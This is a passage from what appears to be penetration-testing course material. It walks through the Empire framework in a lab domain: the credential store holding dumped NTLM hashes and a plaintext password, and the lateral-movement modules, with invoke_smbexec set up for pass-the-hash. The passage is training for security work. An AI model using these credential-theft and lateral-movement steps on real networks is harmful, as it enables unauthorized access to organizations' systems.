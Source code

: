  * Username : offsec
 * Domain : corp
 * Password : (null)
 kerberos :
 * Username : offsec
 * Domain : CORP.COM
 * Password : (null)
 ssp :
 credman :
...

 This output is identical to mimikatz but the collected credentials are also written into the credentialstore, which can be enumerated with creds:


(Empire: K678VC13) > creds
Credentials:
CredID CredType Domain UserName Host Password
------ -------- ------ -------- ---- --------
1 hash corp.com offsec client251 e2b475c11da2a0748290d87aa966c32
2 hash corp.com CLIENT251$ client251 4d4ae0e7cb16d4cfe6a91412b3d80ed


 We can also manually enter data into the credentials store with creds add as shown in Listing 843.

(Empire: K678VC13) > creds add corp.com jeff_admin Qwerty09!
Credentials:
CredID CredType Domain UserName Host Password
------ -------- ------ -------- ---- --------
1 hash corp.com offsec client251 e2b475c11da2a0748290d87aa966c32
2 hash corp.com CLIENT251$ client251 4d4ae0e7cb16d4cfe6a91412b3d80ed
3 plaintext corp.com jeff_admin Qwerty09!
23.2.3 Lateral Movement


Once we gain valid user credentials, we can use them to log into additional systems until we reachour objective. This is known as lateral movement.

In our labs, the domain controller is located on an internal network, meaning we can not reach itfrom our Kali VM. To demonstrate the mechanics of lateral movement within Empire, we’ll obtainanother shell on the Windows 10 client in the context of a different user.Although this example is simplified because of the single target VM, the mechanics of the processwill be the same when moving to a different remote host in a real-world situation.There are various vectors in the lateral_movement category that we can use to invoke an Empireagent on a remote host:

(Empire: K678VC13) > usemodule lateral_movement/technique
inveigh_relay invoke_psremoting invoke_wmi
invoke_dcom invoke_smbexec invoke_wmi_debugger
invoke_executemsbuild invoke_sqloscmd jenkins_script_console
invoke_psexec invoke_sshcommand new_gpo_immediate_task

As an example we will try out the invoke_smbexec module, which requires several parameters.We’ll set ComputerName to the hostname of the Windows 10 client (client251) and set Listener to“http”. We will also set the Username, Domain, and Hash parameters using the relevant data fromthe jeff_admin user account found in the previous section (Listing 843). This is configured in (Listing845)
